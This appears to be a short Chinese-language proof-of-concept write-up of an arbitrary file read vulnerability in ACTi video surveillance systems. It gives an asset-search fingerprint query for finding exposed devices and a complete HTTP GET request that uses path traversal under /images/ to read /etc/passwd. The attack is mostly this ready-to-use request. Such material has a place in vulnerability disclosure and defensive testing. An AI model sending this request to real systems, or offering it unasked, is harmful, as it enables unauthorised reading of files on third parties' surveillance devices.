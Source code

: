 # ACTI-视频监控images存在任意文件读取漏洞

### 一、漏洞描述
ACTI-视频监控images存在任意文件读取漏洞

### 二、影响版本
<font style="color:#000000;">ACTI</font>

### 三、资产测绘
```plain
app="ACTi-视频监控"
```

![1721626995048-5ecae669-a849-438f-831b-f8864a7825d4.png](./img/dVTu3UYBLPA-tSD6/1721626995048-5ecae669-a849-438f-831b-f8864a7825d4-107268.png)

### 四、漏洞复现
```plain
GET /images/../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![1721627029211-a5ec56ec-b9be-4969-a11a-e9788b489d8f.png](./img/dVTu3UYBLPA-tSD6/1721627029211-a5ec56ec-b9be-4969-a11a-e9788b489d8f-998871.png)



> 更新: 2024-08-12 17:48:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mh7ce3oc3gcp5th4>